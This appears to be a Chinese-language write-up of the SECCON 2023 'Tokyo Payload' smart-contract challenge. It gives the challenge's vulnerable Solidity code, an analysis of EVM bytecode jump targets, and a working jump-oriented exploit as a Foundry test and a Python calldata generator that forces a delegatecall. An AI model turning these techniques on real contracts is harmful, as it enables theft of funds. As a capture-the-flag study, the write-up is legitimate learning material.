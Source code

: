 ```yaml
---
title: Blockchain - Tokyo Payload
description: 2023 | SECCON | Misc
tags:
    - smart contract
    - evm
    - bytecode
    - jump oriented programming
---
```


## 题目

What is Solidity?

> nc tokyo-payload.seccon.games 31337

??? note "Setup.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    import {TokyoPayload} from "./TokyoPayload.sol";

    contract Setup {
        TokyoPayload public tokyoPayload;

        constructor() {
            tokyoPayload = new TokyoPayload();
        }

        function isSolved() public view returns (bool) {
            return tokyoPayload.solved();
        }
    }
    ```

??? note "TokyoPayload.sol"

    ```js
    // SPDX-License-Identifier: Apache-2.0
    pragma solidity 0.8.21;

    contract TokyoPayload {
        bool public solved;
        uint256 public gasLimit;

        function tokyoPayload(uint256 x, uint256 y) public {
            require(x >= 0x40);
            resetGasLimit();
            assembly {
                calldatacopy(x, 0, calldatasize())
            }
            function()[] memory funcs;
            uint256 z = y;
            funcs[z]();
        }

        function load(uint256 i) public pure returns (uint256 a, uint256 b, uint256 c) {
            assembly {
                a := calldataload(i)
                b := calldataload(add(i, 0x20))
                c := calldataload(add(i, 0x40))
            }
        }

        function createArray(uint256 length) public pure returns (uint256[] memory) {
            return new uint256[](length);
        }

        function resetGasLimit() public {
            uint256[] memory arr;
            gasLimit = arr.length;
        }

        function delegatecall(address addr) public {
            require(msg.sender == address(0xCAFE));
            (bool success,) = addr.delegatecall{gas: gasLimit & 0xFFFF}("");
            require(success);
        }
    }
    ```

## 解题思路

> TokyoPayload: [Graph - Bytegraph - Smart-Contract Analysis](https://bytegraph.xyz/bytecode/6442127989179d00d4a0eb3a93dd092e/graph)

- 目标是让 `solved` 为 `true`，而 `TokyoPayload` 没有直接设置 `solved` 的语句，显然需要借助 `delegatecall`
- 地址检查限制了 `TokyoPayload.delegatecall()` 的调用，则只能通过 `tokyoPayload()` 跳转
- 分配给 `delegatecall` 的 gas 取决于通过 `arr.length` 设置的 `gasLimit`，而 `arr` 是尚未初始化的内存数组，那么即读取 `MEM[0x60]` 中的值。`calldatacopy` 可以覆盖 `MEM[0x60]` 中的值，使得 `arr.length > 0`，由此可确定 $x\in[40_{16}, 80_{16})$（且由于每次调用 `tokyoPayload()` 都会重设 `gasLimit`，需要通过一次调用来完成多次跳转）
- `DELEGATECALL` 所在块 `JUMPDEST` 的地址为 `0x1a3`，从栈顶到栈底调用栈应满足 `[目标地址addr, 下一跳转地址, ...]`
    - 希望代理调用结束后直接结束本次交易，下一跳转地址可以选择 `0x93`
    ![DELEGATECALL block](img/tokyo_payload01.jpg)

- 可通过 `calldataload` 将所需参数压入栈中，构造合适的调用栈。三个 `CALLDATALOAD` 所在块 `JUMPDEST` 的地址为 `0xd0`，从栈顶到栈底调用栈应满足 `[起始地址i, 下一跳转地址, ...]`。执行到 `0xdf` 时，栈中元素为 `[下一跳转地址, c, b, a, ...]`
- 调用 `tokyoPayload()` 首次执行到函数跳转前，即 `0x18e JUMP`，对应源码 `funcs[z]()`，元素从栈顶到栈底依次为 `[0x18f, y, 0x60, y, x, ...]`
- 在内存覆盖完成后，需要再次调用 `resetGasLimit()`，可以选择 `0x153 JUMPDEST`，此时 `y` 对应栈顶元素 `STACK[0]`，`x` 对应 `STACK[1]`
- 由于需要使用 `SSTORE` 且对应 cold slot，至少需要 22100 gas，`tokyoPayload()` 的函数签名为 `0x40c3` (16579)，可以设 `x` 为 `0x7B` (0x80 - 5)，这样 `delegatecall` 的 `gasLimit` 为 `0xc300`
- 另外，`0x17f` 对应的块可以对栈结构进行微调，可用于跳转 `0xd0` 前，改变栈顶参数 `i`<br>
![0x17f JUMPDEST](img/tokyo_payload02.jpg)

### Exploit

1. 调用 `tokyoPayload()`，覆盖内存，`funcs[z]()` 为 `0x17f`
2. `0x17f` `MEM[0x20 * 0x18f + 0x20 + y] = 0xd0`，执行到 `0x18e JUMP` 时，栈中元素从栈顶到栈底依次为 `[0xd0, 0x60, y, ...]`，由此 `y` 为 `0x153`
3. `0xd0` 构造栈，`b` 对应新的 `x`，`c` 对应新的 `y`
4. `0x153` 重设 `gasLimit`，下一跳转地址 `0x1a3` 对应 `y`，`funcs[z]()` 为 `0xd0`
5. `0xd0` 构造调用栈
6. `0x1a3` 代理调用

```js
contract Logic {
    fallback() external payable {
        assembly {
            sstore(0, 1)
        }
    }
}

contract TokyoPayloadTest is Test {

    TokyoPayload public tokyoPayload;
    address logic;

    function setUp() public {
        tokyoPayload = new TokyoPayload();
        logic = address(new Logic());
    }

    function testSolve() public {
        string[] memory inputs = new string[](3);
        inputs[0] = "python3";
        inputs[1] = "script/generate.py";
        inputs[2] = Strings.toHexString(logic);
        bytes memory data = vm.ffi(inputs);
        (bool s, ) = address(tokyoPayload).call(data);
        require(s);
        require(tokyoPayload.solved());
    }
}
```

```py
import sys

def place(offset, value: int):
    global data
    if l := len(data) // 2 < offset:
        data += '00' * (offset - l + 0x20)
    data = data[: offset * 2] + f'{value:064x}' + data[(offset + 0x20) * 2:]

target_addr = int(sys.argv[1], 16)
data = '000040c3'   # sig
data += f'{0x7b:064x}'  # x
data += f'{0x153:064x}' # y
place(0x4 + 0x153 * 0x20 + 1, 0x17f)   # funcs[0x153] = 0x17f
place(0x20 * 0x18f + 0x20 + 0x153 - 0x7b, 0xd0) # MEM[0x20 * 0x18f + 0x20 + y] = 0xd0
place(0x60 + 0x20, 0x7c) # b: new_x
place(0x60 + 0x40, 0x1a3) # c: new_y
place(0x4 + 0x1a3 * 0x20, 0xd0)   # funcs[0x1a3] = 0xd0
place(0x18f + 0x20, 0x93)   # b: STOP JUMPDEST
place(0x18f + 0x40, target_addr)   # c: DELEGATECALL target
print(data)
```

## 参考资料

- [Layout in Memory — Solidity documentation](https://docs.soliditylang.org/en/latest/internals/layout_in_memory.html)
- [Debugger - Foundry Book](https://book.getfoundry.sh/forge/debugger)